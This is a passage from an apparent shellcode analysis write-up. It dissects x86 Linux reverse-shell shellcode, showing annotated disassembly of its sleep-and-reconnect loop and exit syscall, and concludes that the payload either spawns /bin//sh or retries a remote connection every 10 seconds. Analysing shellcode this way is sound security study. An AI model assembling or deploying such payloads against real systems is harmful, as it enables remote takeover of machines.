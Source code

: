 Based on a few files of the Linux kernel, the size of `time_t` should be `4 bytes` on 32-bit `x86` systems, same for the `long` type. So we're looking at a struct made out of `8 bytes`.

The first 4 bytes specify the number of `seconds` to sleep, while the other ones specify the number of `nanoseconds` to sleep.

Since the `stack` grows downward, we have to push the value of `tv_nsec` to the stack first, and then push the value of `tv_sec`. Let's look again at the struct:

```nasm
                            ; clear EBX
00000082  31DB              xor ebx,ebx

                            ; push the value of `tv_nsec` to the stack
                            ; sleep 0 nanoseconds
00000084  53                push ebx  

                            ; push the value of `tv_sec` to the stack
                            ; sleep 10 seconds
00000085  6A0A              push byte +0xa

                            ; clear EAX and EDX
00000087  F7E3              mul ebx

                            ; 1st argument of nanosleep():
                            ;   pointer to a timespec structure
00000089  89E3              mov ebx,esp
```

Once the shellcode sleeps `10 seconds`, it goes back attempting to connect to the remote server (address `00000014`):

```nasm
                            ; go back to 00000014 (to connect to the remote server)
0000008F  E980FFFFFF        jmp 0x14

                            ; apparently, this instruction is never going to be executed 
00000094  C3                ret
```

Finally, there are some instructions that call the syscall `exit()`, in order to exit gracefully.

```nasm
                            ; call exit() syscall
00000095  31C0              xor eax,eax
00000097  B001              mov al,0x1
00000099  CD80              int 0x80
```

From what it seems, this last syscall is never executed. In fact, there are only two possibilities:

- executes `/bin//sh`
- loops forever, sleeping `10 seconds` and trying to connect to the remote server

Perhaps these instructions were added for conformitiy with other Linux executable, as a way not to *stand out*.
